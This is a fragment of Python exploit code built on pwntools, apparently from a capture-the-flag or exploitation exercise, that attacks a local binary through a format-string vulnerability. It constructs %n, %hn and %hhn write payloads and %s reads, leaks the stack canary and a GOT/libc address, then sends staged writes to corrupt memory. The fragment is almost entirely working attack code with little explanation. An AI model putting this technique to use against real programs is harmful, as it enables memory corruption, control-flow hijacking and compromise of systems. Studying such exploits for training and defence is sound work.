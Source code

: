 ```

    # bytes 2 - 6
    fmt_str4middle = b'%.' + str(high_4bytes_val).encode() + b'x'
    fmt_str4middle += b'%' + str(argv_index).encode() + b'$n'

    argv_0_addr_low_2bytes += 0x4
    fmt_str4update_addr4high = b'%.' + str(argv_0_addr_low_2bytes).encode() + b'x'
    fmt_str4update_addr4high += b'%' + str(stack_argv_index).encode() + b'$hhn'

    # bytes 7 - 8
    fmt_str4high = b'%' + str(argv_index).encode() + b'$hn'

    # read got
    offset = pendal_2nd_save_addr - pendal_1nd_addr
    offset = int(offset / target_info['addr_len'])
    argv_index = stack_argv_index + offset
    fmt_str4read_got = b'%' + str(argv_index).encode() + b'$s'

    return fmt_str4low, fmt_str4update_addr4middle, fmt_str4middle, fmt_str4update_addr4high, fmt_str4high, fmt_str4read_got

target_info['exec_info'] = pwn.ELF(target_info['exec_path'])

canary_index = target_info['caller_args_save_cnt'] + int(target_info['stack_len'] / target_info['addr_len'])
print('[**] canary index = {0}'.format(canary_index))
addr4got = target_info['exec_info'].got[target_info['got_name']]
print('[**] {0}@got address = {1}'.format(target_info['got_name'], hex(addr4got)))

got_addr_index = canary_index + 4 # rbp && callee return && argc && argv
got_addr_index += 1

conn = pwn.process(
    argv = [
        target_info['exec_path'],
        b'\x44\x40\x45\x45',
    ],
)

fmt_str4read_got = fmt_str_read_payload_get(got_addr_index)
conn.send(fmt_str4read_got)
conn.recvuntil(target_info['fixed_output_1'])
leak_info = conn.recvuntil(b'!\n')
leak_info4canary_val = conversion.str2int(leak_info[3:3 + 16]) # skip [|0x]
leak_info4got_save_addr = conversion.bytes2int(leak_info[19 + 3:19 + 3 + 6]) # skip canary info && [|0x]
print('[++] receive canary value = {0}'.format(hex(leak_info4canary_val)))
print('[++] receive {0}@libc address = {1}'.format(target_info['got_name'], hex(leak_info4got_save_addr)))

fmt_str4heap_low, fmt_str4update_addr4middle, fmt_str4heap_middle, fmt_str4update_addr4high, fmt_str4high, fmt_str4read_got = fmt_str4heap_payload_2pendal_get()
conn.send(fmt_str4heap_low)
time.sleep(1)
conn.send(fmt_str4update_addr4middle)
time.sleep(1)
conn.send(fmt_str4heap_middle)
time.sleep(1)
conn.send(fmt_str4update_addr4high)
time.sleep(1)
conn.send(fmt_str4high)
time.sleep(1)
conn.send(fmt_str4read_got)
```